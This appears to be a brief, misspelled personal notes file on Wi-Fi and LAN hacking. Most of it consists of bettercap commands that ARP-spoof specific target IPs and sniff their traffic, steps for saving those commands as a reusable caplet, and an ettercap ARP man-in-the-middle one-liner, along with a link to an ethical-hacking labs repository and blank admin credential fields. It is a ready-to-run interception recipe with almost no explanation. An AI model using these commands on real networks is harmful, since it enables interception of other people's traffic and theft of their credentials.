 # wifi_router-MMTK


bace64 decuder:- https://www.google.com/amp/s/amp.base64decode.org/

### bettercap -iface wlan0
  
    
 
 net.probe on
 
 arp.spoof on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 arp.spoof on
 
 set net.sniff.local true
 
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master



## Ettercap wifi admin penel

 user:-

 password:- 



ettercap -Tq -M arp:remote -i wlan0 ///

